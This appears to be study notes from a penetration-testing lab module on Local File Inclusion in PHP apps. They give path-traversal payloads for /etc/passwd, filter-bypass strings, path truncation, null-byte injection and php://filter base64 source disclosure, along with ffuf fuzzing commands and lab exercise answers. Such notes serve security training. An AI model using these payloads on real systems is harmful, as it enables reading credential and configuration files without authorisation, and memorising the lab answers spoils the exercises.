# 🤽‍♀️ File Disclosure

## Local File Inclusion (LFI)

Let's see how we can exploit these vulnerabilities in different scenarios to be able to read the content of local files on the back-end server.

Imagine a web app where we can choose language ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

if the web application is pulling a file that is now being included in the page, we may be able to change the file being pulled to read the content of a different local file.

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sometimes we will need to use relatives paths and going back to root ->

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```

A more advanced LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

_**Using the file inclusion find the name of a user on the system that starts with "b".**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Submit the contents of the flag.txt file located in the /usr/share/flags directory.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Basic Bypasses

One common LFI filter is one that deletes substrings of (`../`), to bypass this if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../` as well as `..././` or `....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. `....\/`), or adding extra forward slashes (e.g. `....////`)

Another way of bypassing would be to URL encode `../` into `%2e%2e%2f`, which may bypass the filter

<figure><img src="../../../.gitbook/assets/image (1380).png" alt=""><figcaption></figcaption></figure>

{% content-ref url="../command-injections/" %}
[command-injections](../command-injections/)
{% endcontent-ref %}

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. Let's say we can call paths that are under the `./languages ,` we could start our payload with the approved path, and then use `../` to go back to the root directory

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

***

some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension.

In earlier versions of PHP, defined strings have a maximum length of 4096 characters

PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call (`/etc/passwd`)

it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Here is a command to do that ->

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

***

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

_**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**_

```
http://94.237.54.205:42808/index.php?language=languages/....//....//....//....//flag.txt
```

## PHP Filters

If we identify an LFI vulnerability in PHP web applications, then we can utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) to be able to extend our LFI exploitation

[PHP Filters](https://www.php.net/manual/en/filters.php) are a type of PHP wrappers,where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`. We will mainly use the parameters `resource` and `read`.\
There are 4 main filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)

To find php pages:

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

If we wanted to read the code from config.php or any php file we found, we could think of doing the following:

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```

But since it's not HTML it would not render anything but we could disclose their sources with the `base64` PHP filter

```url
php://filter/read=convert.base64-encode/resource=config
```

Which would give this ->

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we just need to decode the code with:

```shell-session
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

_**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.40:38460/FUZZ.php
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://83.136.255.40:38460/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
